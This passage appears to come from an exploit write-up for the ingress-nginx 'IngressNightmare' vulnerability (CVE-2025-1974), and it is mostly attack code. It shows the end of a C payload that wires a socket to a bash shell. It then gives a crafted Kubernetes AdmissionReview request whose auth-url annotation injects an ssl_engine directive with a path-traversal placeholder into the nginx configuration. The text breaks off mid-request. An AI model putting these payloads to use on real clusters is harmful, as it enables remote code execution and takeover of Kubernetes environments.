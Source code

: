 ```c
        exit(0);
    }
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    char *args[] = {"/bin/bash", NULL};
    execve("/bin/bash", args, NULL);
}
```

Configuration Injection

參考：https://github.com/Esonhugh/ingressNightmare-CVE-2025-1974-exps/blob/main/nginx-ingress/validate.json

```
admission_json = """
{
   "kind": "AdmissionReview",
   "apiVersion": "admission.k8s.io/v1",
   "request": {
      "uid": "3babc164-2b11-4c9c-976a-52f477c63e35",
      "kind": {
         "group": "networking.k8s.io",
         "version": "v1",
         "kind": "Ingress"
      },
      "resource": {
         "group": "networking.k8s.io",
         "version": "v1",
         "resource": "ingresses"
      },
      "requestKind": {
         "group": "networking.k8s.io",
         "version": "v1",
         "kind": "Ingress"
      },
      "requestResource": {
         "group": "networking.k8s.io",
         "version": "v1",
         "resource": "ingresses"
      },
      "name": "minimal-ingress",
      "namespace": "default",
      "operation": "CREATE",
      "userInfo": {
         "uid": "1619bf32-d4cb-4a99-a4a4-d33b2efa3bc6"
      },
      "object": {
         "kind": "Ingress",
         "apiVersion": "networking.k8s.io/v1",
         "metadata": {
            "name": "minimal-ingress",
            "namespace": "default",
            "creationTimestamp": null,
            "annotations": {
                "nginx.ingress.kubernetes.io/auth-url": "http://example.com/#;}}}\\n\\nssl_engine ../../../../../../../REPLACE\\n\\n"
            }
         },
         "spec": {
            "ingressClassName": "nginx",
            "rules": [
               {
```